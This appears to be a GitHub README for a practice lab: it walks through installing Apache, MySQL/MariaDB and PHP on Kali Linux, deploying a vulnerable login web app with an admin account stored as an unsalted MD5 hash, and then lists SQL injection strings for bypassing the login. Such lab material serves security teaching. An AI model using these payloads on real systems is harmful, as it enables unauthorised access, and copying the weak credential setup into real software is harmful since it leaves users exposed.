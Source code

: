 # Install Linux, Apache, MySQL, PHP  stack on Kali linux v20.4
  ## Step 1: Install Apache 
  ```sh 
   sudo apt-get update
   sudo apt-get install apache2
  ```
  ## Step 2: Install MySQL
  ```sh 
   $sudo apt update
   $sudo apt-get install mysql-server
   $sudo apt install mariadb-server
  ```
  ## Installing MariaDB
  ```sh 
   $sudo apt update
   $sudo apt install mariadb-server
  ```
 ## Download the Code :
 ```sh 
   git clone https://github.com/anir0y/verzeo-webapp 
  ```
  ## Copying the Downloaded folder
  ```sh
  /var/www/html/
  ```
  ## Starting the Services(Apache2,MySql)
  ```sh
  $sudo service apache2 start
  $sudo service mysql start
  ```
  ## Connecting the server with database
  ```sh
  $sudo mysql -u root
  ```
  > Creating a Table

```sh
     CREATE TABLE IF NOT EXISTS `users` (
     `id` int(11) NOT NULL AUTO_INCREMENT,
     `username` varchar(200) NOT NULL,
     `password` varchar(33) NOT NULL,
      PRIMARY KEY (`id`)
   )  ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```
> Inserting Values into the table
```sh
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');
```
## Creating User and granting permission
```sh
>create user 'user'@'localhost' identified by 'password';
>grant all privileges on 'table'.* to 'user'@'localhost' identified by 'password';
```
## Changing the Configuration file on dbconf
```sh
<?php
$con = new mysqli("127.0.0.1", "user", "password", "table");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>
```
## Next Steps
```sh
  Open any Web browser and try to connect the webserver <mark>127.0.0.1/database/index.php/</mark>
```   
# Steps to Bypass the Login Webpage
> Using sql injection trying different approached.
  * SQL Injection 101, Login tricks

     * admin' --
     * admin' #
     * admin'/*
     * ' or 1=1--
     * ' or 1=1#
     * ' or 1=1/*
     * ') or '1'='1--
     * ') or ('1'='1--
> ![Final](https://github.com/rahulrbk/rahul.github.io/blob/master/Capture1.PNG)




